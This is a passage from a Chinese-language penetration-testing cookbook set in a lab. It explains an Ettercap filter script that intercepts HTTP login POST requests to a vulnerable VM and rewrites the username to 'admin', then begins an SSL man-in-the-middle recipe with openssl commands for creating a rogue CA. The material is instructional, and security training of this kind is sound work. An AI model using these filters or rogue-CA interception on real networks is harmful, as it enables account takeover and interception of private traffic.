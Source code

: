 ### 工作原理

ARP 欺骗攻击是更加复杂的攻击的开始。这个秘籍中，我们使用了 Ettercap 的封包过滤功能来识别带有特定内容的封包，并修改它来强制让用户以管理员登录应用。这也可以从服务端到客户端来完成，可以用来通过展示一些伪造信息来欺骗用户。

我们的第一步是创建过滤脚本，它首先检查被分析的封包是否含有我们打算改变的信息，像这样：

```
if (ip.dst == '192.168.56.102'&& tcp.dst == 80) { 
```

如果目标 IP 是  vulnerable_vm 之一，且 TCP 端口是 80（默认 HTTP 端口号），它就是发往我们打算拦截的服务器的请求。

```
if (search(DATA.data, "POST")){    
    msg("POST request");    
    if (search(DATA.data, "login.php") ){
```

如果请求使用 POST 方法，且去往`login.php`页面，它就是登录尝试，因为这是我们的目标应用接收登录尝试的方式。

```
pcre_regex(DATA.data, "Content-Length\:\ [0-9]*","Content-Length: 41");
```

我们使用正则表达式来获取请求中的`Content-Length`参数，并将它的值改为 41，这是我们发送带有`admin/admin`凭证的登录封包的长度。

```
if (pcre_regex(DATA.data, "username=[a-zA-Z]*&","username=admin&")){    
    msg("DATA modified\n");  
} 
```

同样，使用正则表达式，我们在请求中查找用户名称值，并将它替换为`admin`。

消息（`msg`）仅仅用于跟踪和调试目的，可以被从脚本中忽略。

在编写完脚本之后，我们使用 Ettercap 的 etterfilter 编译他，以便执行它。之后，我们在 Ettercap 中加载它，然后等待客户端连接。

## 8.4 发起 SSL MITM 攻击

如果我们使用我们目前的方法嗅探 HTTPS 会话，我们不能从中得到很多信息，因为所有通信都是加密的。

为了拦截、读取和修改 SSL 和 TLS 的连接，我们需要做一系列准备步骤，来建立我们的 SSL 代理。SSLsplit 的仿作方式是使用两个证书，一个用于告诉服务器这是客户端，以便它可以接收和解密服务器的响应，另一个告诉客户端这是服务器。对于第二个证书，如果我们打算代替一个拥有自己的域名的网站，并且它的证书由认证中心（CA）签发，我们就需要让 CA 为我们签发根证书，但因为我们是攻击者，我们就需要自己来做。

这个秘籍中，我们会配置我们自己的 CA，以及一些 IP 转发规则来执行 SSL 中间人攻击。

### 操作步骤

1.  首先，我们打算在 Kali 上创建 CA 私钥，所以在 root 终端中键入下列命令：

    ```
    openssl genrsa -out certaauth.key 4096 
    ```
    
2.  现在让我们创建一个使用这个密钥签名的证书：

    ```
    openssl req -new -x509 -days 365 -key certauth.key -out ca.crt 
    ```
    